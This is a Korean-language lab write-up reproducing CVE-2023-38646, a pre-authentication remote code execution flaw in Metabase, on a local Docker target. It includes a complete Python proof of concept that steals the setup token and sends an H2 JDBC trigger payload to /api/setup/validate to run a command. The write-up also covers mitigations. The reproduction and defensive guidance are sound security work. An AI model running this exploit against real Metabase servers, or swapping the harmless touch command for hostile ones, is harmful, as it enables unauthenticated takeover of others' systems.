




# CVE-2023-38646

## 1. 취약점 요약

CVE-2023-38646은 Metabase에서 발생하는 인증 전 원격 코드 실행 취약점이다.

공식 CVE 정보에 따르면 다음 버전이 영향을 받는다.

- Metabase Open Source `0.46.6.1` 미만
- Metabase Enterprise `1.46.6.1` 미만

공격자는 인증 없이 취약한 Metabase 서버를 대상으로 공격을 수행할 수 있으며,
성공적으로 악용할 경우 Metabase 서버 프로세스의 권한 수준에서 임의 명령을
실행할 수 있다.

본 실습에서는 취약 버전인 Metabase `0.46.6` 환경을 Docker Compose로 구성하고,
setup 과정에서 사용되는 API와 H2 JDBC 연결 검증 동작을 이용하여 서버 측 명령
실행 가능 여부를 검증한다.

실습에서는 시스템에 파괴적인 영향을 주지 않는 다음 명령을 사용한다.

```text
touch /tmp/cve-2023-38646-success
```

PoC 실행 전에는 존재하지 않던 marker 파일이 PoC 실행 후 Metabase 컨테이너
내부에 생성되는지 확인하여 서버 측 명령 실행 여부를 검증한다.

### 영향받는 버전

| 제품 | 영향받는 버전 |
| --- | --- |
| Metabase Open Source | `0.46.6.1` 미만 |
| Metabase Enterprise | `1.46.6.1` 미만 |

---

## 2. 환경 구성

### 2.1 실습 환경

| 항목 | 내용 |
| --- | --- |
| Host OS | Arch Linux |
| Container Runtime | Docker |
| Orchestration | Docker Compose |
| Target | Metabase 0.46.6 |
| Target Address | `http://127.0.0.1:3000` |
| PoC Runtime | Python 3 |

### 2.2 디렉터리 구조

```text
CVE-2023-38646/
├── docker-compose.yml
├── poc.py
├── README.md
└── images/
    ├── 0.png
    ├── 1.png
    ├── 2.png
    └── 3.png
```

### 2.3 Docker Compose 구성

`docker-compose.yml`

```yaml
services:
  metabase:
    image: vulhub/metabase:0.46.6
    ports:
      - "127.0.0.1:3000:3000"
```

호스트의 `127.0.0.1:3000`에만 포트를 바인딩하여 실습 환경이 외부 네트워크에
직접 노출되지 않도록 구성하였다.

### 2.4 취약 환경 실행

다음 명령으로 취약 환경을 실행한다.

```bash
sudo docker compose up -d
```

컨테이너 실행 상태를 확인한다.

```bash
sudo docker compose ps
```

정상적으로 실행되면 Metabase 컨테이너의 상태가 `Up`으로 표시되고,
`127.0.0.1:3000` 포트가 컨테이너의 `3000/tcp` 포트에 연결된다.



### 2.5 웹 서비스 확인

브라우저에서 다음 주소로 접속한다.

```text
http://127.0.0.1:3000
```

Metabase 초기 설정 페이지가 표시되면 웹 서비스가 정상적으로 실행된 것이다.

본 실습에서는 인증 전 상태에서의 취약점 재현을 위해 초기 사용자 등록 및
설정 완료를 진행하지 않는다.



---

## 3. 취약 조건

본 실습 환경에서 취약점이 재현되기 위한 조건은 다음과 같다.

1. 취약한 Metabase 버전이 실행 중이어야 한다.
2. 공격자가 Metabase HTTP 서비스에 접근할 수 있어야 한다.
3. 인증 전 접근 가능한 API를 통해 setup token을 획득할 수 있어야 한다.
4. 획득한 setup token을 이용하여 setup 검증 API에 요청을 전송할 수 있어야 한다.
5. 조작된 H2 JDBC 연결 정보가 서버 측에서 처리되어야 한다.

본 실습에서는 Metabase `0.46.6`을 사용하였다.

또한 브라우저에서 초기 관리자 계정을 생성하거나 로그인하지 않은 상태에서
PoC를 실행하였다. 따라서 본 재현 과정은 인증된 사용자 세션에 의존하지 않는다.

---

## 4. 재현 절차

### 4.1 Setup Token 확인

다음 명령으로 `/api/session/properties` 엔드포인트의 응답에서 setup token을
확인한다.

```bash
curl -s http://127.0.0.1:3000/api/session/properties | grep -o '"setup-token":"[^"]*"'
```

실행 결과 setup token이 반환되는 것을 확인할 수 있다.



PoC는 동일한 엔드포인트에 직접 접근하여 setup token을 자동으로 획득하므로,
사용자가 token 값을 `poc.py`에 직접 입력할 필요가 없다.

### 4.2 공격 전 상태 확인

PoC 실행 전에 marker 파일이 존재하지 않는지 확인한다.

```bash
sudo docker compose exec metabase ls -la /tmp/cve-2023-38646-success
```

정상적인 공격 전 상태에서는 다음과 같이 파일이 존재하지 않아야 한다.

```text
ls: /tmp/cve-2023-38646-success: No such file or directory
```

이 과정을 통해 PoC 실행 후 확인되는 marker 파일이 기존에 존재하던 파일이
아님을 검증한다.

### 4.3 PoC 실행

다음 명령으로 PoC를 실행한다.

```bash
python3 poc.py
```

PoC는 다음 과정을 자동으로 수행한다.

1. `/api/session/properties` 요청
2. setup token 획득
3. H2 JDBC payload 생성
4. `/api/setup/validate`로 payload 전송
5. 검증용 OS 명령 실행 시도

### 4.4 명령 실행 결과 검증

PoC 실행 후 다음 명령으로 marker 파일을 확인한다.

```bash
sudo docker compose exec metabase ls -la /tmp/cve-2023-38646-success
```

성공적으로 재현된 경우 다음과 같이 파일이 존재한다.

```text
-rw-r--r-- 1 metabase metabase 0 ... /tmp/cve-2023-38646-success
```



PoC 실행 전에는 marker 파일이 존재하지 않았지만, PoC 실행 후 해당 파일이
Metabase 컨테이너 내부에 새로 생성되었다.

또한 생성된 파일의 소유자가 `metabase`로 표시되는 것을 확인하였다.

이를 통해 PoC에 포함된 다음 명령이 Metabase 서버 측에서 실행되었음을 검증하였다.

```text
touch /tmp/cve-2023-38646-success
```

---

## 5. PoC 코드

`poc.py`

```python
#!/usr/bin/env python3

import json
import sys
import urllib.error
import urllib.request

TARGET = "http://127.0.0.1:3000"
MARKER_FILE = "/tmp/cve-2023-38646-success"


def get_setup_token():
    """Fetch the Metabase setup token without authentication."""
    url = f"{TARGET}/api/session/properties"

    with urllib.request.urlopen(url, timeout=10) as response:
        properties = json.loads(response.read().decode("utf-8"))

    token = properties.get("setup-token")

    if not token:
        raise RuntimeError("setup-token not found")

    return token


def build_payload(token):
    """Build the H2 JDBC payload for command execution verification."""
    init_payload = (
        "CREATE TRIGGER shell3 BEFORE SELECT "
        "ON INFORMATION_SCHEMA.TABLES AS $$//javascript\n"
        "\tjava.lang.Runtime.getRuntime().exec("
        f"'touch {MARKER_FILE}')\n"
        "$$"
    )

    return {
        "token": token,
        "details": {
            "is_on_demand": False,
            "is_full_sync": False,
            "is_sample": False,
            "cache_ttl": None,
            "refingerprint": False,
            "auto_run_queries": True,
            "schedules": {},
            "details": {
                "db": (
                    "zip:/app/metabase.jar!/"
                    "sample-database.db;MODE=MSSQLServer;"
                ),
                "advanced-options": False,
                "ssl": True,
                "init": init_payload,
            },
            "name": "cve-2023-38646-poc",
            "engine": "h2",
        },
    }


def send_payload(token):
    """Send the payload to the vulnerable setup validation endpoint."""
    url = f"{TARGET}/api/setup/validate"
    body = json.dumps(build_payload(token)).encode("utf-8")

    request = urllib.request.Request(
        url,
        data=body,
        headers={"Content-Type": "application/json"},
        method="POST",
    )

    try:
        with urllib.request.urlopen(request, timeout=20) as response:
            return response.status

    except urllib.error.HTTPError as error:
        return error.code


def main():
    try:
        print("[*] CVE-2023-38646 Metabase PoC")
        print(f"[*] Target: {TARGET}")

        print("[*] Fetching setup token...")
        token = get_setup_token()
        print("[+] Setup token acquired")

        print("[*] Sending H2 JDBC payload...")
        status = send_payload(token)

        print(f"[*] HTTP status: {status}")

        if status == 400:
            print(
                "[!] HTTP 400 may occur after command execution; "
                "verify the marker file."
            )

        print("[+] Payload request completed")
        print()
        print("[*] Verification command:")
        print(
            "    sudo docker compose exec metabase "
            f"ls -la {MARKER_FILE}"
        )

    except urllib.error.URLError as error:
        print(f"[-] Connection failed: {error}")
        sys.exit(1)

    except Exception as error:
        print(f"[-] Error: {error}")
        sys.exit(1)


if __name__ == "__main__":
    main()
```

### PoC 동작 설명

#### 1. Setup Token 획득

`get_setup_token()` 함수는 다음 엔드포인트에 접근한다.

```text
/api/session/properties
```

응답 JSON에서 `setup-token` 값을 추출한다.

#### 2. H2 JDBC Payload 생성

`build_payload()` 함수는 H2 데이터베이스 연결 검증 과정에서 처리될
초기화 payload를 생성한다.

검증용 명령은 다음과 같다.

```text
touch /tmp/cve-2023-38646-success
```

#### 3. Payload 전송

`send_payload()` 함수는 생성된 payload를 다음 엔드포인트로 전송한다.

```text
/api/setup/validate
```

#### 4. 결과 검증

PoC 실행 후 컨테이너 내부의 marker 파일 존재 여부를 확인한다.

```bash
sudo docker compose exec metabase ls -la /tmp/cve-2023-38646-success
```

---

## 6. 실행 결과

### 6.1 결과 분석

실습 결과 PoC 실행 전에는 다음 marker 파일이 존재하지 않았다.

```text
/tmp/cve-2023-38646-success
```

이후 `poc.py`를 실행한 뒤 동일한 경로를 다시 확인한 결과, marker 파일이
새로 생성된 것을 확인하였다.

생성된 파일의 소유자는 `metabase`로 표시되었다. 따라서 PoC에 포함된
`touch` 명령이 공격자 로컬 환경이 아닌 Metabase 컨테이너 내부에서
실행되었음을 확인하였다.

이를 통해 인증된 사용자 세션 없이 서버 측 OS 명령 실행 흐름에 도달할 수
있음을 검증하였다.

### 6.2 HTTP 400 응답에 대한 해석

PoC 실행 과정에서 `/api/setup/validate` 요청은 다음 상태 코드를 반환하였다.

```text
HTTP status: 400
```

그러나 HTTP 응답 코드만으로 명령 실행 성공 여부를 판단하지 않았다.

PoC 실행 전에는 존재하지 않던 marker 파일이 실행 후 컨테이너 내부에
생성되었으므로, 최종 HTTP 응답이 `400 Bad Request`이더라도 요청 처리
과정에서 서버 측 명령 실행이 이미 발생했음을 확인할 수 있다.

따라서 본 실습에서는 HTTP 상태 코드가 아닌 marker 파일의 실행 전·후
변화를 기준으로 취약점 재현 성공 여부를 판단하였다.

---

## 7. 대응 방안

### 7.1 보안 패치가 적용된 버전으로 업그레이드

가장 중요한 대응 방안은 취약한 Metabase 버전을 사용하지 않고 보안 수정이
포함된 버전으로 업그레이드하는 것이다.

CVE 정보 기준으로 Metabase Open Source `0.46.6.1` 미만 및 Metabase
Enterprise `1.46.6.1` 미만 버전이 영향을 받을 수 있으므로, 사용 중인 버전
계열에 맞는 보안 수정 버전 이상으로 업그레이드해야 한다.

가능하면 단순히 최소 수정 버전에 머무르기보다 현재 지원되는 최신 안정 버전으로
업그레이드하는 것이 권장된다.

### 7.2 외부 네트워크 노출 제한

Metabase 관리 및 setup 관련 API가 인터넷에 직접 노출되지 않도록 접근 범위를
제한해야 한다.

예를 들어 다음과 같은 방법을 적용할 수 있다.

- 방화벽을 통한 접근 제어
- 내부 네트워크에서만 접근 허용
- VPN을 통한 관리 접근
- Reverse Proxy에서 관리 경로 접근 제한

### 7.3 Setup 관련 엔드포인트 보호

즉시 업그레이드가 어려운 경우 setup 관련 엔드포인트에 대한 외부 접근을
제한하는 임시 완화 조치를 고려할 수 있다.

특히 다음과 같은 경로에 대한 비정상적인 외부 요청을 모니터링해야 한다.

```text
/api/session/properties
/api/setup/validate
```

단, 접근 제어는 보안 패치를 대체하지 않으므로 최종적으로는 취약하지 않은
버전으로 업그레이드해야 한다.

### 7.4 침해 흔적 점검

취약한 Metabase 인스턴스가 외부에 노출된 이력이 있다면 다음 항목을 점검해야 한다.

- Metabase 및 Reverse Proxy 접근 로그
- 비정상적인 `/api/setup/validate` 요청
- 의심스러운 프로세스 실행 흔적
- 예상하지 못한 파일 생성
- 비정상적인 외부 네트워크 연결
- 컨테이너 및 호스트의 변경 사항

---

## 8. 정리

본 실습에서는 CVE-2023-38646의 영향을 받는 Metabase `0.46.6` 환경을
Docker Compose로 구성하고, 인증 전 원격 코드 실행 취약점을 재현하였다.

취약 환경은 `docker compose up -d` 명령으로 실행할 수 있도록 구성하였으며,
브라우저를 통해 Metabase 초기 설정 페이지가 정상적으로 제공되는 것을 확인하였다.
초기 관리자 계정 생성 및 로그인은 진행하지 않았다.

이후 `/api/session/properties` 엔드포인트를 통해 setup token을 확인하고,
PoC에서 해당 token을 자동으로 획득하여 `/api/setup/validate` 엔드포인트로
조작된 H2 JDBC payload를 전송하였다.

취약점 악용 여부는 파괴적인 명령 대신 다음 marker 파일 생성 명령을 사용하여
검증하였다.

```text
touch /tmp/cve-2023-38646-success
```

PoC 실행 전에는 해당 파일이 존재하지 않았으나, 실행 후 Metabase 컨테이너
내부에 `metabase` 사용자 소유의 파일이 새로 생성되었다. 이를 통해 인증된
사용자 세션 없이 서버 측 OS 명령 실행이 가능함을 확인하였다.

또한 `/api/setup/validate` 요청이 HTTP `400 Bad Request`를 반환하더라도
marker 파일이 생성된 것을 확인하였다. 따라서 최종 HTTP 응답과 별개로
요청 처리 과정에서 명령 실행이 발생할 수 있음을 검증하였다.

CVE-2023-38646은 인증이 필요하지 않고 네트워크를 통해 원격 악용이 가능하며,
성공적으로 악용될 경우 서버 권한 수준에서 임의 명령 실행으로 이어질 수 있다.

따라서 취약 버전을 사용 중인 환경에서는 보안 수정 버전 이상으로 신속하게
업그레이드하고, 외부 네트워크 노출 제한과 관련 API 요청 모니터링을 함께
적용해야 한다.